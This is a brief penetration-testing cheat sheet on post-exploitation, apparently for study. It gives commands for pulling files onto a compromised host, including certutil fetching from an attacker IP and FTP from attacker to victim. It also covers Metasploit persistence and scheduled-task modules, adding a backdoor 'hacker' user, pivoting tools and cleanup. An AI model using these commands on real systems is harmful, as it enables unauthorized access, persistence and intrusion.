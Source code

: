 # Post Exploitation

1. [File Transfers](#file-transfers)
2. [Maintaining Access](#maintaining-access)
3. [Pivoting](#pivoting)
4. [Cleanup](#cleanup)

## File Transfers

* Certutil:

```shell
certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt
```

* HTTP:

```shell
python -m http.server
```

* Browser (navigate directly to file)

* FTP:

```shell
#in attacker machine
python -m pyftpdlib 21

#in victim machine
ftp 10.10.10.10
```

* Linux:

```shell
wget url
```

## Maintaining Access

* Persistence scripts:

```shell
#3 methods (noisy)
#in msfconsole
run persistence -h

exploit/windows/local/persistence

exploit/windows/local/registry_persistence
```

* Scheduled tasks:

```shell
#2 methods
#in msfconsole
run scheduleme

run schtaskabuse
```

* Add user:

```shell
#preferred method
net user hacker password123 /add
```

## Pivoting

![](../images/pivoting.png)

Tools:
  - proxychains
  - sshuttle
  - chisel

## Cleanup

* Remove executables, scripts, added files
* Remove malware, rootkits and added user accounts
* Set settings back to original configs
